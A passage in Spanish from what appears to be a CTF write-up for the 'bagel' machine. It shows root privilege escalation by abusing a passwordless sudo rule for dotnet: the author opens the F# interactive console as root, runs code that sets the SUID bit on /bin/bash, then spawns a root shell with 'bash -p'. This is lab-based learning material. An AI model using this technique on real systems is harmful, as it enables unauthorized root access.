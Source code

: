 - Como el usuario developer, listamos los permisos de `sudoers` y vemos lo siguiente:

```bash
Matching Defaults entries for developer on bagel:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL QTDIR USERNAME LANG
    LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```

- Es decir, podemos ejecutar como root el binario `"dotnet"` sin contraseña, esto podríamos aprovecharlo de diversas formas, en este caso, abribremos la consola interactiva de `.NET` (fsi) como root:

```bash
$sudo /usr/bin/dotnet fsi
```

- Y dentro de la consola interactiva podemos escribir el código en lenguaje F# que ejecute el comando `"chmod u+s /bin/bash"` dentro del sistema; al ser root, debería ejecutarse sin problemas y podríamos ejecutar la bash con privilegios:

```F#
open System.Diagnostics

let psi = new ProcessStartInfo("chmod", "u+s /bin/bash")
psi.UseShellExecute <- false
let process = Process.Start(psi)
process.WaitForExit() |> ignore
;;
```

- Presionamos ENTER al final, y si ejecutamos `"ls -la /bin/bash"` podremos comprobar que las bash tiene permisos SUID.

- Ejecutamos la bash con privilegios y seremos `root` pudiendo leer las dos flags.

```bash
$bash -p
```

